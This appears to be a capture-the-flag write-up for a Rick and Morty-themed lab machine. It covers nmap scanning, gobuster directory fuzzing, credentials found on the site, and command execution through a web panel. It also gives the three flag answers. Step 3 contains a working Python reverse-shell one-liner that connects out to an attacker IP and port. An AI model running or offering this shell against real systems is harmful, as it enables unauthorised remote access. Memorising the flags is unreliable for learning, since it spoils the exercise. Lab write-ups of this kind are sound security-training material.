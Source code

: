 # Problem

![image](https://github.com/user-attachments/assets/ee876d3e-1cbb-4e39-aa16-8c1400f4d977)

# Solution

### Step 1: Reconnaissance

**Command Used:**

```
nmap -sCV -A -T4 [IP address]
```

**Results:**

![image](https://github.com/user-attachments/assets/73d33630-f463-46e2-8a5d-76222fb037e6)

### Step 2: Enumeration

#### Fuzzing

**Command Used:**

```
gobuster dir -u [Website] -w /usr/share/wordlists/dirb/common.txt -x php,html,js
```

**Note:** You can use other wordlists if you want

**Results:**

![image](https://github.com/user-attachments/assets/b5ed2129-038f-44a4-b1f8-22340665e59a)

#### Scouting Website

Found this:

![image](https://github.com/user-attachments/assets/a875efd4-ead4-4726-b841-b54a9e7289b3)

And this:

![image](https://github.com/user-attachments/assets/bb36ac61-8c54-4dbe-a68b-f32150f38ab1)

Which was credentials for this:

![image](https://github.com/user-attachments/assets/5ebabfca-c9ff-4c65-b08f-7e292218ba04)

So now we have this:

![image](https://github.com/user-attachments/assets/9ca67d67-6fb6-4fb3-8c13-55834b13ddad)

### Step 3: Exploitation

**Commands Used:**

```
ls
less Sup3rS3cretPickl3Ingred.txt // no cat
```

**First Ingredient: mr. meeseek hair** 

**Note:** Some commands were disabled

Anyways I got tired of using the command line in the website so I just popped a rev shell :p

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.102.197",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Forgot to mention there was a clue.txt file that told us to search the file system, it's in /home/rick btw

![image](https://github.com/user-attachments/assets/3630a8c2-af26-4fe2-b6bc-8981db20bac7)

**Second Ingredient: 1 jerry tear**

Last one I had a feeling it was in /root, so...

![image](https://github.com/user-attachments/assets/e94769ab-05f1-4bd0-9efe-f2f55e805d31)

**Final Ingredient: fleeb juice**
